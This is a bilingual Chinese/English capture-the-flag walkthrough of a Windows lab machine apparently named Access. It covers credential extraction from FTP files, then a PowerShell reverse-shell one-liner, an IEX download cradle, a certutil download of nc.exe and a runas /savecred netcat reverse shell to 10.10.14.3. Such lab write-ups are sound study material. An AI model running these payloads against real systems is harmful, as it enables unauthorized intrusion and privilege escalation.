# Access\_98



## Scan results





首先从ftp开始测试

Try test begin at FTP

FTP allowed anonymous access


搜索ftp内的内容

Search everything in FTP, we found two files, `Access Control.zip` and `backup.mdb`.






更改传输模式并将文件夹中的两个文件下载下来

We can use `binary` command to trun the trans type to binary , then transfer the two files back to Kali.


`backup.mdb`看文件名应该是Access数据库的备份，`.mdb`是微软Access数据库文件的后缀名。

我门可以使用`mdb-tables`命令对数据库文件进行快速查看

`backup.mdb`looks like a backup file from Microsoft Access database.

We can use `mdb-tables` to check this file easily .

```bash
$ mdb-tables backup.mdb
```


结果非常杂乱，但是我们可以注意到有一些跟用户验证及权限有关的数据表。

The results are so mass, but we still can saw some tables about user, auth and permissions.

可以使用`mdb-export`导出感兴趣的数据表。

We can use `mdb-export` to export database table which we interested in.

```bash
$ mdb-export backup.mdb auth_user
```


在`auth_user`表中得到了三组凭证。

```bash
admin:admin
engineer:access4u@security
backup_admin:admin
```

使用这三个凭证去尝试解压剩下的压缩文件`Access Control.zip`。

正确的凭证是`engineer:access4u@security`

解压后得到新的文件`Access Control.pst`



得出的.pst文件是 Microsoft Outlook 个人文件夹文件

可以使用readpst工具

```bash
$ readpst -tea -m Access\ Control.pst
```



得到新的文件，查看文件发现新的凭证



```bash
security:4Cc3ssC0ntr0ller
```

这个凭证应该可以在其他服务上利用

查看80端口



查看23端口



23端口可以使用这个凭证直接登陆，获得user



现在我们拥有一个普通用户权限的shell,但是这个shell非常不稳定

在kali本地准备一个powershell脚本，比如nishang

地址[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

注意修改kali ip

```text
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.3',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

在kali本地建立简单的php服务

```bash
$ php -S 0.0.0.0:80
```

并且在kali 4444端口设立监听

```bash
$ nc -nvlp 4444
```

在目标23端口的shell执行

```text
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.3/shell.ps1')
```

这时我们可以在kali监听端口获得一个更稳定的shell

进行一些提权前的常规枚举后，可以发现，目标机器使用了保存凭证功能，并且保存的是管理员的凭证



拥有保存 的凭证就意味着可以直接使用`runas`命令以管理员权限运行命令

想使用certutil 将 nc 下载到靶机本地

```text
certutil -urlcache -split -f http://10.10.14.3/nc.exe nc.exe
```

在kali上新的端口设立另外一个监听

然后使用`runas`利用管理员权限向我们的监听端口通讯

```text
runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.14.3 1337"
```

Root


## 额外知识

Windows可能出于多种原因存储凭据。

其中之一是，系统管理员可能已将应用程序配置为以管理用户身份运行，并且指定了“ / savecred”开关。

Windows中没有办法将“ runas / savecred”特权的使用限制为单个应用程序

-一旦配置了该特权，runas可用于运行任何特权提升的命令。

那系统管理员为什么选择使用“ runas / savecred”呢？

某些原因是使他们不必重复输入（或提供）管理员密码，或者可能是为了运行特权较高的应用程序以绕过应用程序白名单或允许进行写访问到受保护的应用程序目录。

通常，“ runas / savecred”用于创建快捷方式，用户单击该快捷方式即可运行所需的应用程序。以下命令用于枚举系统上所有可访问的快捷方式（.lnk）文件，并检查它们是否存在“ runas”命令。

```text
Get-ChildItem "C:\" *.lnk -Recurse -Force | ft fullname | Out-File shortcuts.txt
ForEach($file in gc .\shortcuts.txt) { Write-Output $file; gc $file |Select-String runas }
```

